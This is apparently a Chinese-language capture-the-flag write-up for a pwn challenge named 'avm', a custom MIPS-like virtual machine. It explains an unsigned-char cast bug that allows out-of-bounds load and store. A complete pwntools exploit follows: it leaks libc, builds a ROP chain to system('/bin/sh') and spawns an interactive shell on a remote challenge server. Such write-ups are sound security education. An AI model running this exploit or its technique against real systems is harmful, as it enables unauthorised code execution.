


# avm

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序构造了一个类似于mips的vm，在bss上放着vm的结构，包含32个64位寄存器，text地址，
pc和text终结地址。每一条指令都占4字节，布局为5位的dest寄存器，5位的from寄存器，
12位的offset和4位的opcode。opcode共映射到10个函数，其中的`f9`和`f10`对偏移的判断存在逻辑错误：
由于使用`byte`(`unsigned char`)强制转换，导致该式永远成立，因此可以实现越界store和load。



从`main`的返回地址`__libc_start_main`获取libc，从`main`的rbp获取1（程序不支持imm），
然后构造出`pop rdi`、`/bin/sh`和`system`的地址并覆写vm函数的返回地址，实现rop拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './avm'

ADD     = 1
SUB     = 2
MUL     = 3
DIV     = 4
XOR     = 5
AND     = 6
LSHIFT  = 7
RSHIFT  = 8
STORE   = 9
LOAD    = 10

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1afc)\nb *$rebase(0x1aaf)\n')
    else:
        sh = remote('39.105.102.220', 26719)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    # 0x29d90 -> leak; 0x2a3e5 -> pop rdi; 0x1d8678 -> /bin/sh; 0x50d70 -> system
    leak = 0x29d90
    def assemble(buf: bytearray, op: int, dst: int, reg1: int, reg2: int):
        buf.extend(p32((op << 28) + (reg2 << 16) + (reg1 << 5) + dst))

    def construct(buf: bytearray, dst: int, num: int):
        stack = []
        while num:
            stack.append(num & 1)
            num >>= 1
        while stack: # 10110 -> 0 1 1 0 1 -> 10110
            if stack.pop(): # 1
                assemble(buf, ADD, dst, dst, 1)
            if len(stack) > 0:
                assemble(buf, LSHIFT, dst, dst, 1)
        assemble(buf, ADD, dst, dst, 2)

    ops = bytearray()
    assemble(ops, LOAD, 2, 0, 0xd38) # r2 = leak
    assemble(ops, LOAD, 1, 0, 0xd30) # r1 = 1
    construct(ops, 3, 0x2a3e5 - leak) # r3 = pop rdi
    construct(ops, 4, 0x1d8678 - leak) # r4 = /bin/sh
    construct(ops, 5, 0x50d70 - leak) # r5 = system
    construct(ops, 6, 0x2a3e6 - leak) # r6 = ret
    assemble(ops, STORE, 3, 0, 0x118)
    assemble(ops, STORE, 4, 0, 0x120)
    assemble(ops, STORE, 6, 0, 0x128)
    assemble(ops, STORE, 5, 0, 0x130)

    sh.sendafter(b'opcode', bytes(ops))

    sh.clean()
    sh.interactive()
    sh.close()
```


